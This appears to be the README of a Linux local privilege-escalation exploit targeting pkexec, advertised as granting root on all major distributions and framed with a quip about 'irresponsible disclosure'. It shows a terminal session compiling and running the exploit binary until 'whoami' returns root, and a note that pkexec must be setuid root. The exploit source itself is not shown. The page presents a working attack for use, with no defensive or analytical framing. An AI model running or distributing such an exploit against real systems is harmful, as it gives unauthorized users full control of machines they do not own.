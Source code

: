 ## 🐧MAJOR BUG GRANTS ROOT FOR ALL MAJOR LINUX DISTRIBUTIONS

##  CTF quality exploit
bla bla irresponsible disclosure

terminal:
```console
user@linux:~$ gcc -o blasty blasty-vs-pkexec.c
user@linux:~$ ./blasty
[~] compile helper..
[~] maybe get shell now?
# whoami
root

```
exploitation when debugging:
```debug
pkexec must be setuid root
```
